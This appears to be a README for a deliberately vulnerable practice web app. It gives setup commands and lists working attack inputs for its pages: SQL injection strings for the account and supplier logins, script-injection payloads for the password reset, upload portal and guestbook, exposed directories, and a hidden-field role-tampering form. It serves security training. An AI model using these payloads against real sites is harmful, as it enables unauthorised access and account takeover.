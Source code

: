 npm i
Front end- npm run dev
backend - npm run start

SQL Injection:
Login to My Account - 'or 1=1 or' admin' or 1=1# , admin' or '1'='1 
supplier login - admin' or 1=1# 

Cross-site Scripting (XSS):
Password Reset - </h2><script>alert(1);</script><h2> 
Supplier Upload Portal - <img src=x onerror=alert(1);> 
Guestbook -  </h2><script>alert(1);</script><h2> 
Publicly Available Directories :
robot.txt file
/supplier directory

Web Parameter Tampering:
?action=admin
<INPUT TYPE="hidden" NAME="role" VALUE="U"><INPUT TYPE="submit"
METHOD="POST" ACTION="http://{your ip address}/cgi-bin/badstore.cgi?action=register"
